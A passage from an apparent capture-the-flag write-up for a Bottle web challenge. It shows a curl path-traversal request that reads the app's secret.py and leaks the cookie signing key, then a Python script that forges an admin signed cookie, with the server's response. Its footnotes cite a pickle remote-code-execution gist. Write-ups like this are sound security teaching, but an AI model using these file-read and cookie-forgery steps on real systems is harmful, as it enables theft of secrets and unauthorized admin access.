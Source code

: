 ```
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)

$ curl http://bottle-poem.ctf.sekai.team/show?id=/app/config/secret.py
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

We have a hidden endpoint at `/sign`, and we can easily forge signed cookies as
we have obtained the signing secret already.

```
#!/usr/bin/env python3

from bottle import response

response.set_cookie('name', {'name': 'admin'}, secret="Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu")
print(f'Cookie: {response.headerlist[1][1]}')
# Cookie: name="!rsOwvUb6jllVHQVOPlZv5w==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFYWRtaW6Uc4aULg=="

$ curl http://bottle-poem.ctf.sekai.team/sign -H 'Cookie: name="!rsOwvUb6jllVHQVOPlZv5w==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFYWRtaW6Uc4aULg=="'
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Sekai's boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
	Hello, you are admin, but it’s useless.
</body>
</html>
```


[^pickle-rce-ref]: Copied from https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd
[^wiki-cbc-length]: https://en.wikipedia.org/wiki/CBC-MAC#Security_with_fixed_and_variable-length_messages